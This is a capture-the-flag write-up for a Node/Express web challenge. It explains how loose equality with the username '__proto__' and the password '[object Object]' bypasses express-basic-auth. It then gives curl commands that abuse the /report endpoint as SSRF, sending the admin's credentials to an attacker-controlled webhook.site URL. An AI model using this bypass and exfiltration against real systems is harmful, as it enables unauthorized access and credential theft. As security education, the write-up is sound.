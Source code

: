 # username:password@

This is a web challenge, which also gives us access to source code and Dockerfile, which is really useful and should give us the solution to the challenge upon inspecting the code

## The first pitfall
When doing this challenge first thing I did was to investigate the libraries used to see if I could find any weakness in them. 
First thing that I noticed was the use of a library called express-basic-auth

When searching for this, you may find that this library had it's last commit in 2021, and it's likely deprecated, noy only that there is a vulnerability related to it.

https://security.snyk.io/vuln/SNYK-JS-EXPRESSBASICAUTH-174345

Sadly, it has been patched since 1.1.7

```js
{
  "dependencies": {
    "express": "^4.21.2",
    "express-basic-auth": "^1.2.1",
    "node-fetch": "^2.7.0"
  }
}
```

But, if we read the details in snyk, this is a timing attack vulnerability CWE-208, also, if we read the github repo it clearly states to use the safe function safeComparte in favor of javascript's comparison

![alt text](./Pasted%20image%2020250223005100.png) 

If we read at the loginRequired function on the code, we can see that it does exactly as this

```js
const loginRequired = basicAuth({
  authorizer: (username, password) => users[username] == password,
  unauthorizedResponse: 'Unauthorized',
});
```

So, problem solved, right?
I thought so, but after putting together a quick python script to test the password. (16 hexadecimal values generated randomly)
 
```js
const genRanHex = size =>
  [...Array(size)].map(() => Math.floor(Math.random() * 16).toString(16)).join('');

const users = {
  'admin': genRanHex(16),
};

```

I realized that the time between requests was pretty much the same, probably due to the network overhead making significant noise for this kind of attack

## What now?
I had my doubt's on this method, mostly due to the network overhead but the solution seemed as clear as water, specially thanks to the code doing exactly what the library maintainer advised against

When reviewing once more the loginRequired middleware we can see that it has a loose type comparison, which means that JS will not check for a strict comparison, i.e. Will compare values with different types by converting the operands 
For instance

```js
true=="1"
true
```

This is due to true being converted into a number, 1 and then converted into string so it can be compared to "1".  An extra step is taken with objects, as they are converted into primitives before the comparison

With this, we can try to bypass the loginRequired function. Looking at the code there are two endpoints using this middleware

```js
app.get('/report', loginRequired, (req, res) => {
  const path = req.query.path;

  if (!path) {
    return res.send("<form method='GET'>http://<input name='path' /><button>Submit</button></form>");
  }

  fetch(`https://admin:${users["admin"]}@${path}`)
    .then(() => res.send("Success"))
    .catch(() => res.send("Error"));
});

app.get('/admin', loginRequired, adminOnly, (req, res) => {
  res.send(flag);
});

```

The report endpoint, which makes a request on behalf of the admin, and the admin endpoint that fetches the flag, given the fact that the admin endpoint requires extra validation for the admin user, and report already makes a request in behalf of the admin user, we'll focus on getting to the report endpoint

## Bypassing the authorization

The login required function accesses the property key given as the username to see if the value stored in the users object is in fact, the password

This allows us to access the object prototype, while we cannot make prototype pollution because there is no assignment in the code, we can still make a comparison against it

### The object prototype
JS has a feature where all objects inherit from the same base prototype by default, and included in the prototype chain. Prototypes are like blueprints, providing common properties and functions, while objects hold properties of their own.

![alt text](./Pasted%20image%2020250223170444.png) 


In this example we create a dog object from the animal object, we can see that despite not having a function toString, it inherits it from the object prototype, at the top of the prototype chain

![alt text](./Pasted%20image%2020250223170652.png) 


We have to ways to access the object prototype

dot notation
	object.\_\_proto\_\_
bracket notation
	object\[".\_\_proto\_\_"\]
	

With this we can craft the payload

```js
users["__proto__"]=="[object Object]"
true
```

As the conversion to string for the object prototype is the \[object Object\] string

##### A quick note
When trying this payload you should use curl, as modern web browser have disabled by default the use of basic html authentication

You should also url encode the brackets
``` bash
curl http://__proto__:%5Bobject%20Object%5D@host1.dreamhack.games:16001/report

<form method='GET'>http://<input name='path' /><button>Submit</button></form>

```

### SSRF
With the authentication bypassed, we can steal the admin credentials by sending a request to a server controlled by us 

``` bash
curl http://__proto__:%5Bobject%20Object%5D@host1.dreamhack.games:16001/report?path=webhook.site/fab3b4a5-1db1-459b-91cf-c758a3d7b0de

```

With that we are able to get the admin credentials and steal the password
![alt text](./Pasted%20image%2020250223183805.png) 


And fetch the flag

![alt text](./Pasted%20image%2020250223183923.png) 
